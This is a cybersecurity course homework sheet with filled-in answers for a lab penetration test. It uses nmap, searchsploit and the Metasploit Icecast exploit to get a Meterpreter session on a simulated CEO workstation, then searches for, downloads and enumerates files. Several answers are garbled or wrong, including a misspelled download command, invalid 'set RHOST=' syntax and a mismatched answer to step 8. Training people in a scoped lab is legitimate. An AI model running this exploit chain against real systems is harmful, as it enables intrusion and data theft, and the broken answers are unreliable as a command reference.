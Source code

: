## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files whose names contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`.

### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV -v 192.168.0.20
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer:msfconsole
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer:search icecast

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:use icecast
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer:set RHOST=192.168.0.20
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer:run

   - Run the command that performs a search for the `secretfile` textfile on the target.


     > Answer:search -f *.txt
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe.txt*

    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: downlaod c:/Users/IEUser/Documents/Drinks.recipe.txt

8. You can also use Meterpreter's local exploit suggester to find possible exploits.cat

      >Answer: c:/Users/IEUser/Documents/Drinks.recipe.txt

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
           systeminfo

C. Run the command that displays the target's computer system information:

   > Answer:sysinfo

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
